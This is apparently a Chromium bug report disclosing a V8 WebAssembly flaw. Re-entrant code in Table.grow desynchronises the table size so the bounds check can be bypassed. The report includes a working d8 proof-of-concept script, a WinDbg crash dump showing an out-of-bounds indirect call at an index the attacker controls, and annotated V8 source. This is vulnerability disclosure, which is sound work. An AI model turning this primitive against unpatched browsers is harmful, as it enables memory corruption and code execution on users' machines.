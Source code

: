 UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36

Steps to reproduce the problem:
PoC script for d8
```
load('test/mjsunit/wasm/wasm-constants.js');
load('test/mjsunit/wasm/wasm-module-builder.js');

var builder = new WasmModuleBuilder();
builder.addImportedTable("x", "table", 1, 10000000);
builder.addFunction("main", kSig_i_i)
  .addBody([
    kExprI32Const, 0,
    kExprGetLocal, 0,
    kExprCallIndirect, 0, kTableZero])
  .exportAs("main");
let module = new WebAssembly.Module(builder.toBuffer());
let table = new WebAssembly.Table({element: "anyfunc",
  initial: 1, maximum:1000000});
let instance = new WebAssembly.Instance(module, {x: {table:table}});

let myint = {};
myint[Symbol.toPrimitive] = function () {
  table.grow(99900); // <-- this expands function_table of instance
  return 1;          // <-- but, it shrinks table.
}
for (let i = 0; i < 4; i++)
  table.grow(myint);

let instance2 = new WebAssembly.Instance(module, {x: {table:table}});
table.grow(myint);

instance2.exports.main(0x313131/8); // <- table index
```
wasm-constants.js and wasm-module-builder.js are from the v8 repository

What is the expected behavior?
not crash

What went wrong?
---
(2068.1b58): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
000003ab`d807ed33 48833c0300      cmp     qword ptr [rbx+rax],0 ds:0000026e`2c295340=????????????????
0:000> r rax
rax=000000000031313f
0:000> u
000003ab`d807ed33 48833c0300      cmp     qword ptr [rbx+rax],0
000003ab`d807ed38 0f852c000000    jne     000003ab`d807ed6a
000003ab`d807ed3e 48bb012230fca7000000 mov rbx,0A7FC302201h
000003ab`d807ed48 488b1c03        mov     rbx,qword ptr [rbx+rax]
000003ab`d807ed4c 33c0            xor     eax,eax
000003ab`d807ed4e 4883c37f        add     rbx,7Fh
000003ab`d807ed52 ffd3            call    rbx
000003ab`d807ed54 488be5          mov     rsp,rbp
---

the table bound checking is bypassed, and the rax register (index) is controlled by a user input.

In wasm-js.cc, side-effects code can be triggered.
---
void WebAssemblyTableGrow(const v8::FunctionCallbackInfo<v8::Value>& args) {
..
  i::Handle<i::FixedArray> old_array(receiver->functions(), i_isolate);
  int old_size = old_array->length(); // <-- Caching old_array and length
  int64_t new_size64 = 0;
  if (args.Length() > 0 && !args[0]->IntegerValue(context).To(&new_size64)) { // <-- IntegerValue triggers side-effects code
    return;
  }
  new_size64 += old_size;

..

  int new_size = static_cast<int>(new_size64);
  receiver->grow(i_isolate, static_cast<uint32_t>(new_size - old_size)); // <---

  if (new_size != old_size) {
..
    receiver->set_functions(*new_array); // <--
  }

..
}
---

In wasm-objects.cc (grow), load the function table size, and call patch.
---
void WasmTableObject::grow(Isolate* isolate, uint32_t count) {
..
  uint32_t old_size = functions()->length(); // <-- load table size

..
    code_specialization.PatchTableSize(old_size, old_size + count); // <-- Patch existing wasm codes referring table size. then, I guess bound checking could be changed with a wrong table size.
..
    code_specialization.ApplyToWholeInstance(
        WasmInstanceObject::cast(dispatch_tables->get(i)));
..
  }
___

Did this work before? N/A 

Chrome version: 60.0.3112.90  Channel: stable
OS Version: 10.0
Flash Version:
